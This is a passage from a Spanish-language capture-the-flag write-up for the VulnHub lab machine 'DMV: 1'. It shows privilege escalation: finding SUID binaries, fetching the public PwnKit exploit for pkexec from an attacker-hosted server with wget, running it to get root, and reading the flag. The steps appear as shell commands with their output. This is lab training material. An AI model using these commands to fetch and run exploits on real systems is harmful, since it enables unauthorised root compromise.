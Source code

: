 * * *

Listamos archivos de la máquina con permiso SUID y localizamos `pkexec`

```bash
www-data@dmv:/$ find \-perm -4000 2>/dev/null
.
.
.
./usr/bin/pkexec
.
.
```

Nos descargamos la herramienta `PwnKit` del github de [ly4k](https://github.com/ly4k/PwnKit) y aprovechando los túneles creados levantamos nuevamente un serrvidor HTTP por el puerto 2323 y en la máquina DMV mediante wget a través del puerto 4545 nos traemos el binario a la máquina. Le damos permisos de ejecución y al ejecutarlo ganamos privilegios de root. La flag la encontramos en `/root/root.txt`

```bash
www-data@dmv:/tmp$ wget http://10.10.0.145:4545/PwnKit
--2023-02-08 13:03:30--  http://10.10.0.145:4545/PwnKit
Connecting to 10.10.0.145:4545... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit                                              100%[==================================================================================================================>]  17.62K  --.-KB/s    in 0.001s  

2023-02-08 13:03:30 (20.6 MB/s) - 'PwnKit' saved [18040/18040]

www-data@dmv:/tmp$ ls
PwnKit
www-data@dmv:/tmp$ chmod +x PwnKit 
www-data@dmv:/tmp$ ./PwnKit 
root@dmv:/tmp# whoami
root
root@dmv:~# cat /root/root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```



Hemos completado la máquina **DMV: 1** de VulnHub!! Happy Hacking!!